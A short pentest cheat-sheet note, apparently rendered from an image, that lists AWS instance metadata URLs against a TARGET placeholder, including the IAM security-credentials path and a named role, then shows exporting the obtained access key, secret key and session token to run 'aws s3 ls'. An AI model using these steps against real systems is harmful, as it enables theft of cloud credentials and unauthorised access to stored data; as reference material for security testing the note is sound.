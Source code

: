 # AWS Enspoints
```
http://TARGET/latest/meta-data
http://TARGET/latest/meta-data/iam/security-credentials/
http://TARGET/latest/meta-data/iam/security-credentials/ISRM-WAF-ROLE
```

Connecting to aws s3:
```bash
export AWS_ACCESS_KEY_ID=...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
aws s3 ls
```